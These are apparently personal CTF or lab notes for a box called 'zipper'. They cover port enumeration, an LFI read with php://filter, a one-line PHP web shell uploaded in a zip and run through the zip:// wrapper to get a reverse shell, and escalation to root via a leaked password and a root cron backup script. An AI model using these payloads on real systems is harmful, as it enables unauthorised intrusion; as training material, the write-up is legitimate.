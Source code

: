 ### Enumeration
```
IP=192.168.198.229
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- 80
	- Apache httpd 2.4.41 ((Ubuntu))
### Foothold
- 80
	- Default landing page
		- ![[Pasted image 20240816084745.png]]
		- ![[Pasted image 20240816085000.png]]
			- Outputs the uploaded file
		- ![[Pasted image 20240816084856.png]]
		- ![[Pasted image 20240816084901.png]]
	- Versions
	- LFI
		- view-source:http://192.168.198.229/index.php?file=php://filter/read=convert.base64-encode/resource=index.php
			- Nothing
		- view-source:http://192.168.198.229/index.php?file=php://filter/read=convert.base64-encode/resource=index
			- PD9waHAKJGZpbGUgPSAkX0dFVFsnZmlsZSddOwppZihpc3NldCgkZmlsZSkpCnsKICAgIGluY2x1ZGUoIiRmaWxlIi4iLnBocCIpOwp9CmVsc2UKewppbmNsdWRlKCJob21lLnBocCIpOwp9Cj8+Cg==
			- ![[Pasted image 20240816085652.png]]
		- upload
			- ![[Pasted image 20240816085724.png]]
			- Could use php wrapper zip for rce
				- [[LFI - RFI]]
				- `echo '<?php echo system($_GET["cmd"]); ?>' > basicwebshell.php
				- Upload the file
				- Find the name is upload_1723821639.zip
				- `GET /index.php?file=zip://uploads/upload_1723821639.zip%23basicwebshell.php&cmd=whoami
					- Returns 200 OK but no output. Lets try RCE
				- Upload php rev
					- /index.php?file=zip://uploads/upload_1723822144.zip%23rev
					- Removed .php at end since program is removing the .php part
					- We get our rev shell
	- Directory Brute force
		- dirsearch -u http://$IP
			- /style
			- /upload.php
			- /uploads
				- forbidden
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Vulnerability scan
		- nikto -h http://$IP
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- needs password
	- uname -a
		- `Linux zipper 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- ping
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- no one
	- netstat -ano
		- Active ports
			- nothing new
	- Directories to check
		- /opt
			- Check GTFO Bins. Treated as SUID
			- backups
				- drwxr-xr-x  2 root root
				- backup.log
					- Uses this directory /opt/backups/backup.zip
					- And zips it?
					- ![[Pasted image 20240816103719.png]]
					- su root
						- WildCardsGoingWild
						- rooted
			- backup.sh
				- -rwxr-xr-x  1 root root
				- ![[Pasted image 20240816095701.png]]
				- cat /root/secret
					- permission denied
				- /var/www/html/uploads
					- a zip file that is the same as /root/secret
					- No access to the file
	- linpeas
		- Possible Exploits
		- Interesting Files
			- Cron
				- `* *     * * *   root    bash /opt/backup.sh
	- pspy64
### Credentials
### Lessons Learned